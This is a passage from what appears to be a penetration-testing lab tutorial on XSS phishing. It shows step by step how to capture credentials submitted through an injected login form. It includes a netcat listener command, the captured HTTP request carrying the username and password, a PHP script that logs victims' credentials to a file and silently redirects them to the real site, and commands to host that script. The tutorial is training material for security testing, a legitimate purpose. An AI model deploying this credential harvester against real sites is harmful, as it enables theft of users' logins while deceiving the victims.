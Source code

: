 ### Credential Stealing

Our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

Let us start a simple netcat server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our VM, as follows:
```
user@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```
Now, let's attempt to login with the credentials test:test, and check the netcat output we get (don't forget to replace `OUR_IP` in the XSS payload with your actual IP):
```
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```
As we can see, we can capture the credentials in the HTTP request URL (/?username=test&password=test). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a netcat listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the web application as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (don't forget to replace `SERVER_URL` with the URL of target website):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_URL/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Now that we have our `index.php` file ready, we can start a PHP listening server:
```
user@htb[/htb]$ mkdir /tmp/tmpserver
user@htb[/htb]$ cd /tmp/tmpserver
user@htb[/htb]$ vi index.php #at this step we wrote our index.php file
user@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
Let's try logging into the injected login form and see what we get. We see that we get redirected to the original web application page.

If we check the `creds.txt` file in our VM, we see that we did get the login credentials.
